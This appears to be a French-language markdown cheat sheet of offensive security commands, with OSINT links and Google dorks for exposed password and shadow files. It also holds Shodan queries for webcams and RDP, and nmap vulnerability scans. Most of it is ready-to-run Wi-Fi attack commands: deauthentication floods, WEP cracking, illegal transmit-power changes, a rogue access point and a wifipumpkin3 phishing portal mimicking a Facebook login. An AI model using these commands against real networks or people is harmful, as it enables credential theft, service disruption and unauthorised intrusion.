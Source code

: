 # Liens :

Clair-scanner :
- https://github.com/arminc/clair-scanner/blob/master/README.md
- https://github.com/quay/clair
- https://chathura-siriwardhana.medium.com/docker-image-security-scan-with-clair-94b766faff3c 


GoogleContainerTools :
- https://github.com/GoogleContainerTools 

Global DDOS attack :
- https://www.digitalattackmap.com/

Wigle :
- https://wigle.net/

Shodan :
- https://www.shodan.io/


# Osint
Google opérateur : 
```
m.trix
“Robert Masse”


Inurl: cgi-bin
Allinurl: cgi-bin password
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
inurlasswd filetype:txt
inurl:admin filetype:db
inurl:iisadmin
inurl:"auth_user_file.txt"
inurl:"wwwroot/*."
top secret site:mil
confidential site:mil
allinurl: winnt/system32/ (get cmd.exe)
allinurl:/bash_history
intitle:"Index of" .sh_history
intitle:"Index of" .bash_history
intitle:"index of" passwd
intitle:"index of" people.lst
intitle:"index of" pwd.db
intitle:"index of" etc/shadow
intitle:"index of" spwd
intitle:"index of" master.passwd
intitle:"index of" htpasswd
intitle:"index of" members OR accounts
intitle:"index of" user_carts OR user_cart
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
```

# NMAP
```
nmap @ip

scan les 65535 ports existants
nmap @ip -p-

scan OS
nmap @ip -O

@scan vuln
nmap @ip -script vuln

```
# Wireshark
```
tcp.port == 80 || udp.port == 80
ip.dst == 192.168.1.46
```

# Shodan
```
2009 john matherly
Mr Robot
maj h24/7j

os:windows
os:windows country:fr
camera city:paris
webcamxp
port:22
port:3389
title:"hacked by"
```

# WIFI
## Trouver les réseaux wifi accessible

```sh
iwlist wlan0 scanning
```
# Monitoring wifi

## Changer le regulatory domains

```sh
iw reg set BO
``` 
> BO = Bolivie


## Change le tx-power 

```sh
iwconfig wlan0 txpower 30
```

## Carte wifi en mode monitor 
```sh
airmon-ng start wlan0
```

## Réseaux caché 
```sh
airodump-ng wlan0mon
wireshark : filtre = wlan.addr = BSSID
```

## Désauthentification
```sh
aireplay--ng -0 5 - a BSSID --ignore-negative wlan0mon
aireplay-ng -0 1000 -a BSSID_DU_WIFI -c BSSID_DE_LOBJET_CONNECTE --ignore-negative-one wlan0mon
```

## Changer de channel
```sh
iwconfig wlan0mon channel 1
```

## Interaction airodump

raccourci-clavier pour l'affichage de airodump

```
[a]: Select active areas by cycling through these display options: AP+STA; AP+STA+ACK; AP only; STA only

[d]: Reset sorting to defaults (Power)
[i]: Invert sorting algorithm
[m]: Mark the selected AP or cycle through different colors if the selected AP is already marked
[r]: (De-)Activate realtime sorting - applies sorting algorithm everytime the display will be redrawn

[s]: Change column to sort by, which currently includes: First seen; BSSID; PWR level; Beacons; Data packets; Packet rate; Channel; Max. data rate; Encryption; Strongest Ciphersuite; Strongest Authentication; ESSID

[SPACE]: Pause display redrawing/ Resume redrawing

[TAB]: Enable/Disable scrolling through AP list
[UP]: Select the AP prior to the currently marked AP in the displayed list if available
[DOWN]: Select the AP after the currently marked AP if available
```


## Attaque WEP 
```sh
airodump-ng -c 9 --bssid BSSID --write WEPCRACKING wlan0mon
aireplay-ng -3 -b BSSID -h MACHOST --ignore-negative-one wlan0mon
aircrack-ng WEPCRACKING-03.cap 
```


## Rogue AP
```sh
airbase-ng --essid AA1AA2 -c 11 wlan0mon
brctl addbr Wifi-Bridge
brctl addif Wifi-Bridge eth0
brctl addif Wifi-Bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig Wifi-Bridge 192.168.1.55 up 

```

## Rogue AP MITM
```sh
sudo wifipupkin3
help
show
use misc.extra_captiveflask
help
download
proxies
set proxy captiveflask
set captiveflask.facebook true
ap

set ssid WIFI_PUMP 
set interface wlan0
ap 
start

```


